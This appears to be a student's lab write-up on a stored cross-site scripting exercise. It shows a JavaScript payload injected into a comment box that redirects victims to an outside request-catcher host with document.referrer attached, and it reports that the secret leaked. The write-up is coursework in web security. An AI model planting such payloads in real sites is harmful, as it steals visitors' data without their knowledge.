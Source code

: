 # DOTA Lab 4 Part 2

> Partner: t0933492

## Description

The part is about Stored XSS. We injected a malicious javascript code into the comment box using the test accounts. The code will do some evil things like redirecting the victim into a malicious website or steal victim's information when accessing the website that was injected.

## Solution

Based on my observation, the comment list will only show up after submitting a comment and the submission is ONLY through GET methods, which means that every information is contained in the query parameters. So I wrote this script

```javascript
<script> 
  location.href = 'https://dotalab4.requestcatcher.com/' + document.referrer
</script>
```

I created a website as a 'web hook', to catch the information. The script will redirect the victim to the hook website with its information carried out to it.

## Evaluation

The result seems that the hook successfully caught the request sent by victim and the secret is leaked.

![](./img/webhook.png)
